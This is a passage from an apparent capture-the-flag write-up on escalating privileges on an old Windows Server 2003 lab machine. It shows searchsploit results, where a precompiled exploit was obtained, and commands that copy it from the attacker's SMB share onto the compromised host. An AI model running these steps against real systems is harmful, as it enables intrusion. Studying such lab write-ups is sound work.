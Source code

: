 `Windows Server 2003 SP2` is extremely outdated and there should be known privilege escalation exploits.

```none
$ searchsploit microsoft windows server 2003 | grep local
Microsoft Windows Server 2000 - 'RegEdit.exe' Registry Key Value Buffer Overflow                                                                          | windows/local/22528.c
Microsoft Windows Server 2000 - CreateFile API Named Pipe Privilege Escalation (1)                                                                        | windows/local/22882.c
Microsoft Windows Server 2000 - CreateFile API Named Pipe Privilege Escalation (2)                                                                        | windows/local/22883.c
Microsoft Windows Server 2000 - Help Facility '.CNT' File :Link Buffer Overflow                                                                           | windows/local/22354.c
Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation                                                                               | windows/local/6705.txt
Microsoft Windows Server 2003 SP2 - Local Privilege Escalation (MS14-070)                                                                                 | windows/local/35936.py
Microsoft Windows Server 2003 SP2 - TCP/IP IOCTL Privilege Escalation (MS14-070)                                                                          | windows/local/37755.c
```

I took a look at the `Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation` exploit which pointed me to an exploit known as `Churrasco`.
After doing some research on that, I tried compiling the exploit code on one of my local windows machines. Unfortunately, the exploit code was too outdated for my version of Visual Studio to compile it. After some more research, I stumbled upon pre-compiled windows kernel exploits in the following [GitHub repository](https://github.com/SecWiki/windows-kernel-exploits). I went ahead and downloaded the pre-compiled `pr.exe` [executable](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012).

At this point, I needed to transfer the `pr.exe` exploit to the grandpa machine.

Meterpreter failed to upload the executable:

```none
meterpreter > upload /home/kali/htb/boxes/grandpa/privesc/pr.exe
[*] uploading  : /home/kali/htb/boxes/grandpa/privesc/pr.exe -> pr.exe
[-] core_channel_open: Operation failed: Access is denied.
```

NOTE: I later learned that this uploading problem could have been fixed by migrating the meterpreter session to a more stable process (facepalm).


Therefore, I ended up transferring the exploit via SMB instead:

```none
c:\windows\system32\inetsrv>net use x: \\10.10.14.24\r0kit
net use x: \\10.10.14.24\r0kit
The command completed successfully.

c:\windows\system32\inetsrv>mkdir c:\Windows\Temp\r0kit
c:\windows\system32\inetsrv> copy x:\pr.exe c:\Windows\Temp\r0kit
```


```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.14,1058)
[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
[*] User GRANPA\GRANPA$ authenticated successfully
```